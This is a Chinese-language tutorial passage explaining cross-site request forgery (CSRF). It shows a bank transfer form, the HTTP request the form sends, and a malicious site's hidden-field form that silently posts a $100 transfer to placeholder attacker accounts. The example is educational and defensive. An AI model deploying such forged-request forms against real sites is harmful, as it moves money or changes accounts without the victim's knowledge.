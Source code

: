 Cross Site Request Forgery (CSRF)

# 什么是 跨站伪造请求 攻击？

银行转账表单如下，可以从当前登录用户的账户向另一个账户转账
```html
<form method="post"
    action="/transfer">
<input type="text"
    name="amount"/>
<input type="text"
    name="routingNumber"/>
<input type="text"
    name="account"/>
<input type="submit"
    value="Transfer"/>
</form>
```
对应的http request如下：
```text
POST /transfer HTTP/1.1
Host: bank.example.com
Cookie: JSESSIONID=randomid
Content-Type: application/x-www-form-urlencoded

amount=100.00&routingNumber=1234&account=9876
```
现在用户登录到银行网站，但没有登出；并且访问了一个 恶意站点， 站点的网页表单如下：
```html
<form method="post"
    action="https://bank.example.com/transfer">
<input type="hidden"
    name="amount"
    value="100.00"/>
<input type="hidden"
    name="routingNumber"
    value="evilsRoutingNumber"/>
<input type="hidden"
    name="account"
    value="evilsAccountNumber"/>
<input type="submit"
    value="Win Money!"/>
</form>
```
如果用户点了`Win Money!`按钮，就会无意识的转$100给恶意用户。因为即使恶意站点不知道 cookies， 但是浏览器也会自动填充银行request中的cookie。更糟糕的是， JavaScript可以自动完成这个操作，而不需要用户点击按钮。
